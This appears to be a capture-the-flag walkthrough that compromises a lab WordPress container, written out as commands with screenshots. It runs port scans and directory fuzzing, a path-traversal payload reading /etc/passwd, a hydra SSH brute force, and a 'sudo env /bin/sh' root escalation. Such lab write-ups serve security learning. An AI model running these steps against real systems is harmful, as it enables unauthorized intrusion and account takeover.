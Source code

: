 ![image](https://github.com/user-attachments/assets/9283c3f4-4723-4b41-8e08-abd86a598923)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p80,3000,5000 172.17.0.2 -oN targeted
```
![Pasted image 20250130200220](https://github.com/user-attachments/assets/37450698-e928-4bc1-80ee-f0c60a317994)
![Pasted image 20250130200300](https://github.com/user-attachments/assets/45a04b04-11e0-4648-b91f-9b0958536d4d)

## **Fuzzing**
```bash
gobuster dir -u http://172.19.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![Pasted image 20250130200540](https://github.com/user-attachments/assets/f1fda2a5-7603-4968-bd1a-5e929f7d1ad5)
![Pasted image 20250130200558](https://github.com/user-attachments/assets/8503c05d-28f9-43eb-943e-33b436e0ffdf)

## **We found a hidden page but we don't have anything yet so we will apply fuzzing again to this new site.**
```bash
gobuster dir -u http://172.19.0.2/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![Pasted image 20250130200837](https://github.com/user-attachments/assets/bcff72b5-8a90-4f4d-b0e8-8508d28ef420)
![Pasted image 20250130200859](https://github.com/user-attachments/assets/6e8fb61b-57ba-4958-9341-3a034acc78cb)

## **here we find a **.php** file that is executing something so we will try to execute a command to give us a response**
```bash
http://172.18.0.2/wordpress/index.php?love=../../../../../../../etc/passwd
```
![Pasted image 20250130201108](https://github.com/user-attachments/assets/4ed9d5e5-40b4-48ec-9238-2a17187667c7)

## **we have already found 2 users rosa and pedro so we will try to connect to **SSH** with one of these users**
```bash
hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.19.0.2
```
![Pasted image 20250130201313](https://github.com/user-attachments/assets/7e5d1dee-2cae-421f-819d-ecda8f83b32e)

## **now we connect via ssh**
```bash
ssh rosa@172.19.0.2
```
![Pasted image 20250130201407](https://github.com/user-attachments/assets/fb19b8e9-9872-4023-9c03-077c84a69b79)

```bash
sudo -l
```
![Pasted image 20250130201454](https://github.com/user-attachments/assets/acb17790-807e-47de-a00f-e816de2737b6)

## **we have root permissions without passwd to use the command 'ls' and 'cat' now let's investigate**

![Pasted image 20250130201638](https://github.com/user-attachments/assets/09827cb4-097d-43a7-8b4c-8575bcb0fe7e)

## **we don't have enough permissions but we can use ls and cat**

![Pasted image 20250130201819](https://github.com/user-attachments/assets/28014c04-8d4c-4aaf-a46a-75c3148fadc2)

## **we have nothing now search for us in root directory**

![Pasted image 20250130201954](https://github.com/user-attachments/assets/071e12ff-9f7e-42c5-8061-ebc5add01252)

## **from the root directory we get a code that appears to be hexadecimal**

![Pasted image 20250130202037](https://github.com/user-attachments/assets/b48ce935-dfbc-4426-972d-a22bd18b02d5)

## **we will try to change the user with this new password**
```bash
su pedro
```
![Pasted image 20250130202141](https://github.com/user-attachments/assets/546c737c-6d66-4965-86f4-cae055aae6e7)

```bash
sudo -l
```
![Pasted image 20250130202211](https://github.com/user-attachments/assets/111ac277-334f-4b32-9540-087d05c1a697)
![Pasted image 20250130202225](https://github.com/user-attachments/assets/be3719b9-2e8e-4255-a411-0d592fe86a42)

```bash
sudo env /bin/sh
```
![Pasted image 20250130202308](https://github.com/user-attachments/assets/a68d5675-3a4f-4ded-be5b-8ea6273fc7dc)
